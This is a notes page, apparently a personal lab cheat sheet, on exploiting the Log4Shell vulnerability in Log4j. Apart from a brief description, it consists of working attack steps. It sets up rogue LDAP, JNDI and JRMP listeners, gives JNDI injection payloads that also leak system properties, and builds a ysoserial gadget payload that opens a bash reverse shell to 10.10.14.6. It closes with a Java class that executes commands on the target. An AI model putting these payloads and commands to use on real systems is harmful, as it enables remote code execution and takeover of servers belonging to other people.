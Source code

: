 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec

excerpt_separator: <!--more-->
---
```


<p>The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.</p>


<!--more-->

## Log4shell

### Setting up LDAP server using Marshalsec
[Marshalsec Github](https://github.com/mbechler/marshalsec)
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

#### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

#### Creating serialized payload using ysoserial
[ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

#### Set up JNDI Listener using JNDI-Exploit-Kit
[JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
- `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
- after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

#### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something. 

#### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

